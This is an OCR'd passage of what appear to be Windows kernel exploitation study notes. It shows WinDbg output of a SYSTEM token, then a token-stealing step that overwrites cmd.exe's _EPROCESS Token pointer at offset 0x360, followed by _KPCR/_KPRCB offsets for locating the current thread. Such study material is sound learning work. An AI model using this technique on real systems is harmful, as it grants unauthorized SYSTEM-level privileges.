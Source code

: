          32 0x000000020 SeRelabelPrivilege                Attributes - 
         33 0x000000021 SeIncreaseWorkingSetPrivilege     Attributes - Enabled Default 
         34 0x000000022 SeTimeZonePrivilege               Attributes - Enabled Default 
         35 0x000000023 SeCreateSymbolicLinkPrivilege     Attributes - Enabled Default 
         36 0x000000024 SeDelegateSessionUserImpersonatePrivilege  Attributes - Enabled Default 
        Authentication ID:         (0,3e7)
        Impersonation Level:       Anonymous
        TokenType:                 Primary
        Source: *SYSTEM*           TokenFlags: 0x2000 ( Token in use )
        Token ID: 3eb              ParentToken ID: 0
        Modified ID:               (0, 3ec)
        RestrictedSidCount: 0      RestrictedSids: 0x0000000000000000
        OriginatingLogonSession: 0
        PackageSid: (null)
        CapabilityCount: 0      Capabilities: 0x0000000000000000
        LowboxNumberEntry: 0x0000000000000000
        Security Attributes:
        Invalid AUTHZBASEP_SECURITY_ATTRIBUTES_INFORMATION with no claims
        Process Token TrustLevelSid: S-1-19-1024-8192

The next step is to locate the _EPROCESS structure for the cmd.exe process and replace the Token pointer at offset 0x360 with the address of the System token:

`kd> !process 0 0 cmd.exe`

    PROCESS ffffda08658c6400
    SessionId: 2  Cid: 1344    Peb: 0021d000  ParentCid: 0994
    DirBase: 367cc000  ObjectTable: ffffc588964d3180  HandleCount:  75.
    Image: cmd.exe

`kd> eq ffffda08658c6400+0x360 ffffc588``89406040`

### Get the current thread
[Link](https://connormcgarr.github.io/Kernel-Exploitation-1/)

The Kernel Processory Control Region (_KPCR) is managed by the kernel, for each logical processor present.

The Kernel Processor Region Control Block (_KPCRB) controls more granular information such as CPU model, type, current thread, etc.


The _KPCRB is at a 0x180 byte offset from _KPCR.

`kd> dt _KPCR`

     nt!_KPCR
     +0x000 NtTib            : _NT_TIB
     +0x000 GdtBase          : Ptr64 _KGDTENTRY64
     [...]
     +0x180 Prcb             : _KPRCB


The current thread object (_KTHREAD) is located 0x008 bytes away from _KPCRB :

`kd> dt _KPRCB`
